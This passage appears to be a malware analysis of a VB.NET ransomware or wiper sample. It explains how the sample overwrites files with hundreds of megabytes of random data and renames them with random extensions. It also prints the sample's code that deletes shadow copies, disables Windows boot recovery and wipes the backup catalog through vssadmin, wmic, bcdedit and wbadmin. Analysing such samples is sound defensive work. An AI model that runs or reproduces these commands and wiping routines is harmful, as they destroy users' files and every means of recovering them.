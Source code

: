 The key difference in this revised code compared to the previous one lies in the way the random string (`[string]`) is generated and used :

#### Revised Code Snippet

1.  **Generation of a Much Larger Random String**:
    
    -   `Dim num As Integer = random.[Next](200000000, 300000000)`: This line generates a random integer (`num`) between 200 million and 300 million. This number represents the length of the random byte array to be generated.
    -   `Dim [string] As String = Encoding.UTF8.GetString(Program.random_bytes(num))`: Generates a random byte array of length `num` and then converts it to a UTF-8 string. The resulting string is much larger compared to the previous version, where the length was a quarter of the `fileInfo.Length`.
2.  **File Rewriting and Renaming**:
    
    -   `File.WriteAllText(files(i), Program.randomEncode([string]))`: Writes the `Program.randomEncode([string])` result, which is a significantly larger and randomly generated string, into the file at `files(i)`.
    -   `File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))`: Renames the file, appending a new random extension.

#### Implications of the Change

-   **File Size Impact**: The most significant impact of this change is on the file size. Because `num` is a large number (between 200 and 300 million), the random string generated will be much larger, potentially making the file sizes significantly bigger after the rewrite.
-   **Performance Considerations**: Generating and writing such a large amount of random data to files could have performance implications, especially if this operation is performed on multiple files or on systems with limited resources.

Overall, this modification shifts the focus of the file manipulation from altering or encrypting the existing content to filling the files with a substantial amount of random data.

#### System Alteration

```vbnet
If Program.checkAdminPrivilage Then
		If Program.checkdeleteShadowCopies Then
		Program.deleteShadowCopies()
	End If
	If Program.checkdisableRecoveryMode Then
		Program.disableRecoveryMode()
	End If
	If Program.checkdeleteBackupCatalog Then
		Program.deleteBackupCatalog()
	End If
End If

Private Shared Sub deleteShadowCopies()
	Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete")
End Sub

Private Shared Sub disableRecoveryMode()
	Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no")
End Sub

Private Shared Sub deleteBackupCatalog()
	Program.runCommand("wbadmin delete catalog -quiet")
End Sub
```

